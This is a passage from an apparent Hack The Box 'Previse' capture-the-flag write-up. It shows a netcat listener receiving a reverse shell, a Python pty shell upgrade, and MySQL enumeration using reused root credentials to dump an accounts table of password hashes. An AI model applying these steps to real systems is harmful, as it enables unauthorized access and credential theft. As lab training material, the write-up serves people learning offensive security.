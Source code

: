 Switching to our waiting netcat listener and we see we have our shell connected:

```text
┌──(root💀kali)-[~/htb/previse]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.214] from (UNKNOWN) [10.10.11.104] 48260
```

Let's upgrade to a better shell first:

```text
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@previse:/var/www/html$ 
```

## MySQL Enumeration

We are only connected as a low privilege user, but earlier we found mysql credentials so we can have a look in the database:

```text
www-data@previse:/var/www/html$ mysql -u root -p<HIDDEN> -e 'show databases;'
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| previse            |
| sys                |
+--------------------+

www-data@previse:/var/www/html$ mysql -u root -p<HIDDEN> -e 'show tables from previse;'
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+

www-data@previse:/var/www/html$ mysql -u root -pm<HIDDEN> -D previse -e 'select * from accounts;'
+----+------------+----------------------------------+---------------------+
| id | username   | password                         | created_at          |
+----+------------+----------------------------------+---------------------+
|  1 | m4lwhere   | $1$🧂llol$<HIDDEN>               | 2021-05-27 18:18:36 |
|  2 | admin      | $1$🧂llol$<HIDDEN>               | 2021-09-29 13:25:13 |
<SNIP>
| 11 | pencer     | $1$🧂llol$autWM2CFiLP91dbtPvQwc/ | 2021-09-29 20:12:34 |
+----+------------+----------------------------------+---------------------+
```

## Hash Cracking

